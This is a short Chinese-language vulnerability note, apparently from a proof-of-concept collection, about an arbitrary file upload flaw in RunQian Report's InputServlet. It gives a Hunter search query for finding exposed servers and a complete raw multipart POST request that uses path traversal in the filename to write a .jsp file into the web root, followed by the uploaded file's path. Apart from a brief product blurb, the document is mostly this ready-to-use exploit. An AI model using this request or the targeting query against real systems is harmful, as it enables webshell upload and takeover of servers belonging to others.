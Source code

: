 # 润乾报表InputServlet存在任意文件上传漏洞

# 一、漏洞简介
润乾报表是一个纯JAVA的企业级报表工具支持对J2EE系统的嵌入式部署，无缝集成。服务器端支持各种常见的操作系统，提供高效的报表设计方案、强大的报表展现能力、灵活的部署机制，支持强关联语义模型，并且具备强有力的填报功能和olap分析，为企业级数据分析与商业智能提供了高性能、高效率的报表系统解决方案。润乾报表InputServlet存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 润乾报表

# 三、资产测绘
+ hunter`app.name="润乾报表平台"`
+ 特征

![1712713418597-1304fe4b-6423-40c5-b6c4-622581d06799.png](./img/nF5vX5OkCsHgPsZX/1712713418597-1304fe4b-6423-40c5-b6c4-622581d06799-019490.png)

# 四、漏洞复现
```java
POST /InputServlet?action=12 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 241
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="upsize"

1024
--00content0boundary00
Content-Disposition: form-data; name="file"; filename="/\..\\..\\..\2211.jsp"
Content-Type: image/jpeg

123
--00content0boundary00--
```

![1712713445103-ad84172d-20aa-42b8-83ce-f74c1e305e7c.png](./img/nF5vX5OkCsHgPsZX/1712713445103-ad84172d-20aa-42b8-83ce-f74c1e305e7c-519159.png)

文件上传位置

```java
/2211.jsp
```

![1712713472577-df0cff32-9c0d-4008-ac1a-d3b6be3fbe2d.png](./img/nF5vX5OkCsHgPsZX/1712713472577-df0cff32-9c0d-4008-ac1a-d3b6be3fbe2d-185970.png)



> 更新: 2024-04-16 14:37:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ekg0bvs3ogtplydg>